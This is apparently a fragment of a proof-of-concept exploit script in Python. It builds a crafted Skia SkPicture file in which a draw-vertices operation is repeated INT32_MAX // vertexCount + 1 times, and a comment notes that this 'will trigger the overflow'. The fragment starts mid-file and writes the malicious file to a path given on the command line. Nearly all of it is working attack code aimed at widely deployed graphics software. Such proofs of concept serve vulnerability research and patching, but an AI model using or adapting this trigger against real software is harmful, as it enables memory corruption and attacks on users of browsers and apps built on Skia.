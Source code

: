 ```
info += f32(30)  # SkRect.fRight
info += f32(30)  # SkRect.fBottom
info += p8(kPictureData_TrailingStreamByteAfterPictInfo)

factory = tag('fact')
factory += p32(1)  # size
factory += p32(1)  # SkFactoryPlayback size
factory += p8(len(name)) 
factory += name

paint_buffer = tag('pnt ')
paint_buffer += p32(1)  # size
paint_buffer += f32(1)  # SkPaint.fWidth
paint_buffer += f32(0)  # SkPaitn.fMiterLimit
paint_buffer += f32(255)  # SkColor4f.fR
paint_buffer += f32(255)  # SkColor4f.fG
paint_buffer += f32(255)  # SkColor4f.fB
paint_buffer += f32(0)  # SkColor4f.fA
paint_buffer += p32(0)  # flatFlags

vertices_buffer = tag('vert')
vertices_buffer += p32(1)  # size

vertices_buffer += p32(kHasTexs_Mask) 
vertices_buffer += p32(vertexCount)
vertices_buffer += p32(indexCount)
fVSize = vertexCount * sizeof_SkPoint  # positions
fTSize = vertexCount * sizeof_SkPoint  # texCoords
fCSize = 0  # colors
fISize = indexCount * sizeof_uint16_t  # indices
vertices_buffer += p32(fVSize)
positions = b''
for _ in range(2):  # We need at least 2 distinct points to not bail out early.
    positions += f32(1)
positions += f32(0) * ((fVSize - len(positions)) // 4)
vertices_buffer += positions
for size in [fTSize, fCSize, fISize]:
    vertices_buffer += p32(size)
    vertices_buffer += b'\0' * size

buffer_size = tag('aray')
buffer_size += p32(len(paint_buffer) + len(vertices_buffer))

reader = tag('read')
op = DRAW_VERTICES_OBJECT
op_size = 16
reader_op = p32((op << 24) + op_size)
reader_op += p32(1)  # paint
reader_op += p32(1)  # vertices
reader_op += p32(0)  # boneCount
reader_op += p32(kXor)  # bmode
reader_ops = reader_op * (INT32_MAX // vertexCount + 1)  # The "+ 1" will trigger the overflow
reader += p32(len(reader_ops))
reader += reader_ops

eof = tag('eof ')

with open(sys.argv[1], 'wb') as f:
    f.write(info)
    f.write(factory)
    f.write(buffer_size)
    f.write(paint_buffer)
    f.write(vertices_buffer)
```